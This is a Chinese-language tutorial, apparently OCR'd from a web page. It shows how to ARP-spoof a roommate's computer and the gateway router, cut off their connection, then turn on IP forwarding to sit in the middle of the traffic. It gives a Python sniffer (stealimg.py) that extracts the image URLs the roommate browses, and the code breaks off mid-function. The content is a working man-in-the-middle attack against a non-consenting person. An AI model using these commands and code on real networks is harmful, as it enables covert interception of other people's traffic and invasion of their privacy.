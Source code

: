 python arpattack.py -i 网卡 -t 要攻击的目标的ip地址 -g 网关ip
输入

python arpattack.py -i wlan0 -t 192.168.0.8 -g 192.168.0.1
选择无线网卡wlan0的MAC地址去欺骗室友的电脑和网关路由器，如果我和室友都插了网线，就要选择eth0

运行脚本便会不断的向室友的电脑和网关发送arp响应包进行双向欺骗，效果如下   

图片

室友电脑 arp 缓存 

图片

路由器 arp 缓存   

图片

这时我们截获了室友电脑和网关之间的流量，使其不能相互通信，完成了arp断网

echo "1">/proc/sys/net/ipv4/ip_forward
开启流量转发，这时室友和网关正常通讯，但是流量会经过我们的网卡

接下来用python编写代码查看室友电脑浏览的网页图片，其实不难，因为浏览图片一般都是向服务器发送一次请求图片的http请求，所以只需从经过我们网卡的流量中过滤tcp80端口的数据包（http协议），将数据包的头部层层去掉，最后便能得到应用层的http数据包，在利用正则表达式将http://*.jpg筛选出来即可知道室友请求了哪些图片，python的pcap库和dpkt库可以使我们很容易的得到电脑网卡流量中的http应用层数据包

apt-get install libpcap-dev

pip install pypcap

pip install dpkt
安装pcap库和dpkt库

pcap模块的pcap方法可以返回一个用来捕获网卡数据包的pcap对象

dpkt，一个数据包解析工具，可以解析离线/实时pcap数据包

python代码如下stealimg.py

import pcap
import dpkt
import re
import requests
from PIL import Image
from io import BytesIO
from optparse import OptionParser
import sys
urllist=[]
def main():
    usage="Usage: [-i interface]"
    parser=OptionParser(usage)
    parser.add_option('-i',dest='interface',help='select interface(input eth0 or wlan0 or more)')
    (options,args)=parser.parse_args()
    if options.interface:
        interface=options.interface
        pc=pcap.pcap(interface)
        pc.setfilter('tcp port 80')
        for ptime,pdata in pc:
            getimg(pdata)
    else:
        parser.print_help()
        sys.exit(0)
def getimg(pdata):
    global urllist
    p=dpkt.ethernet.Ethernet(pdata)
    if p.data.__class__.__name__=='IP':
        if p.data.data.__class__.__name__=='TCP':
            if p.data.data.dport==80:
                pa=re.compile(r'GET (.*?\.jpg)')#|.*?\.png|.*?\.gif
                img=re.findall(pa,p.data.data.data)